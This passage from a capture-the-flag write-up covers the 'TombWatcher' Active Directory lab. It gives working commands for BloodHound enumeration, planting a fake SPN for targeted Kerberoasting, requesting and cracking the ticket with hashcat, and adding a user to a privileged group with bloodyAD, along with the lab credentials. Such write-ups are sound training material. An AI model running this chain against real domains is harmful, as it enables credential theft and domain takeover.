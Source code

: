 ## Bloodhound 0x1

Started recon with BloodHound to enumerate all AD objects:
```shell
bloodhound-python -d tombwatcher.htb -u henry -p 'H3nry_987TGV!' -gc tomb-dc.tombwatcher.htb -ns 10.10.11.72 -c all --zip
```
This collects all information (users, groups, sessions, ACLs, etc.) and saves it in a zip file to analyze in the BloodHound GUI.
![bloodhound2](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FbkHQIbJq7ukNCmquA8NA%252Fimage.png%3Falt%3Dmedia%26token%3D2bae0a56-9510-42d2-aa1a-c5c38b266280&width=400&dpr=3&quality=100&sign=3214ac65&sv=2)
I found the  that ```HENRY``` has write access to the ```servicePrincipalName``` of ```ALFRED```, which can be abused for Kerberoasting write permissions

## Abuse SPN via LDAP Write Permissions

- Create the ```.ldif``` file to add a fake SPN
```shell
dn: CN=ALFRED,CN=Users,DC=tombwatcher,DC=htb
changetype: modify
add: servicePrincipalName
servicePrincipalName: fake/alfsvc
```
- Add a fake SPN to ```ALFRED``` via LDAP.
```shell
ldapmodify -x -H ldap://10.10.11.72 -D "CN=HENRY,CN=Users,DC=tombwatcher,DC=htb" -w 'H3nry_987TGV!' -f add_spn.ldif
```
- Request a TGS ticket for that SPN.
```shell
impacket-GetUserSPNs tombwatcher.htb/HENRY:'H3nry_987TGV!' -dc-ip 10.10.11.72 -request
```
- Crack the TGS offline using hashcat or john to get ALFRED's password.
```shell 
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
![offline](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FAWXRFg3xAlG2DFosYFvL%252Fimage.png%3Falt%3Dmedia%26token%3D1e3aba3d-dd76-44d9-9eae-5fd88f3bdf85&width=400&dpr=3&quality=100&sign=5010c521&sv=2)
Once cracked, we got access to ```ALFRED```, moving one step closer to full domain compromise and continue with ```alfred``` crednetials 

> We run BloodHound again after each new user because it updates our attack paths based on the new permissions and group memberships revealing new ways to escalate.
{: .prompt-info }

## Bloodhound 0x2

Using Alfred’s credentials, we ran BloodHound again to uncover new attack paths from his perspective.
```shell 
bloodhound-python -d tombwatcher.htb -u alfred -p 'basketball' -gc tomb-dc.tombwatcher.htb -ns 10.10.11.72 -c all --zip
```
![bloodhound3](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252Fp4tuYgaMxZp5KDAKrrPO%252Fimage.png%3Falt%3Dmedia%26token%3De761548b-c9f7-4307-b008-616f4f01d423&width=400&dpr=3&quality=100&sign=6a50f1e9&sv=2)
From Alfred’s account, we had permission to add users to the INFRASTRUCTURE group.
We used BloodyAD to add my Alfred to it:
```shell 
bloodyAD --host '10.10.11.72' -d 'dc01.TOMBWATCHER.HTB' -u 'alfred' -p 'basketball'  add groupMember 'INFRASTRUCTURE' alfred

[+] alfred added to INFRASTRUCTURE
```
This gave us the next step in our escacdlation path.
